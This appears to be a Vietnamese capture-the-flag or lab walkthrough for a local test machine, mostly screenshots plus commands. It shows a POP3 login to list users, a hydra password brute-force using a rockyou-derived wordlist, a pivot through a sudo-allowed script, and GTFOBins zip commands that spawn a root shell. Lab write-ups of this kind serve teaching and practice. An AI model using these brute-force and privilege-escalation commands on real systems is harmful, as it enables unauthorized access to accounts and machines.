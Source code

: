 ![image](https://hackmd.io/_uploads/SkgIvzvU6.png)

Kiểm tra web
![image](https://hackmd.io/_uploads/HkbhwGv8a.png)
Theo rule không được attack port 80, 8000, 9000. Vậy ta phải attack vào 2 port 110 và 2222.

> telnet 192.168.18.136 110
USER pentester
PASS qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
LIST

![image](https://hackmd.io/_uploads/HkPh5fP8T.png)

Thu được danh sách user
![image](https://hackmd.io/_uploads/SJZR9Mv86.png)

Lọc các từ khoá liên quan đến bob: grep bobby /usr/share/wordlists/rockyou.txt > wordlist.txt

hydra -l bob -P wordlist.txt pop3://192.168.18.136

![image](https://hackmd.io/_uploads/H1QToGw8T.png)

Tìm được password: bobby1985, ssh vào
![image](https://hackmd.io/_uploads/H1Df2MwLa.png)

Kiểm tra sudo -l thấy rằng ta có khả năng chạy check.sh với tư cách là người dùng my2user.
![image](https://hackmd.io/_uploads/HJcQnzDIT.png)

Chạy thử script
![image](https://hackmd.io/_uploads/HJfjnMP8p.png)

Ta leo sang my2user xem có gì hay ho không bằng cách thêm /bin/bash vào script
![image](https://hackmd.io/_uploads/SkAyaGP8a.png)

sudo -u my2user /bin/bash /opt/scripts/check.sh
![image](https://hackmd.io/_uploads/rkDQpGwI6.png)
Kiểm tra với sudo -l ta thấy rằng nó có thể chạy /usr/bin/zip với quyền root.

![image](https://hackmd.io/_uploads/SJ5w6GvL6.png)

![image](https://hackmd.io/_uploads/B1W3TzwUp.png)

Tham khảo https://gtfobins.github.io/gtfobins/zip/#sudo để leo lên root qua zip 

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

hoặc 
```bash
sudo zip 1.zip check.sh -T --unzip-command="sh -c /bin/bash"
```
